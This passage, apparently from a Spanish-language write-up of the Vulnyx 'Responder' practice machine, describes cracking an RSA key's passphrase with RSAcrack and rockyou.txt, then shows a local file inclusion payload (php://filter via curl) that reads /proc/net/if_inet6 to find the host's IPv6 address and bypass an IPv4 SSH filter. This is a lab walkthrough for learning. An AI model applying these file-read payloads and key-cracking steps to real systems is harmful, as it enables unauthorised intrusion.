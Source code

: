 Pero para poder usar esta clave necesitamos averiguar primero la contraseña.. esto lo haré con la herramienta RSAcrack creada por d4t4s3c.

[RSAcrack](https://github.com/d4t4s3c/RSAcrack)

Haciendo uso del diccionario rockyou.txt consigo obtener la contraseña de la clave privada.

![](/assets/images/VULNYX/Responder-Vulnyx/RSAcrack.webp)

Ahora ya podrías hacer uso de la clave RSA pero recordemos que el puerto 22 está filtered...

Pero hemos comprobado que está filtered por ipv4, pero no por ipv6... por lo que podríamos intentar obtener la dirección ipv6.

Esto lo hacemos leyendo el archivo `if_inet6` ubicado en la ruta `/proc/net/`.

```bash
❯ curl -X GET "http://192.168.0.18/filemanager.php?random=php://filter/convert.base64-encode/resource=/proc/net/if_inet6" 2>/dev/null | base64 -d

00000000000000000000000000000001 01 80 10 80       lo
fe800000000000000a0027fffe02f910 02 40 20 80   enp0s3
```
Y como vemos ya tenemos ahí la dirección ipv6, solo hay que separarla correctamente.

> fe80:0000:0000:0000:0a00:27ff:fe02:f910

Una vez separada procedo a conectarme vía SSH usando la clave rsa.

```bash
ssh elliot@fe80::a00:27ff:fe02:f910%enp0s17 -i id_rsa
```

![](/assets/images/VULNYX/Responder-Vulnyx/elliot.webp)

Y porfin he ganado acceso a la máquina, por lo que el siguiente paso es migrarme al usuario rohit.
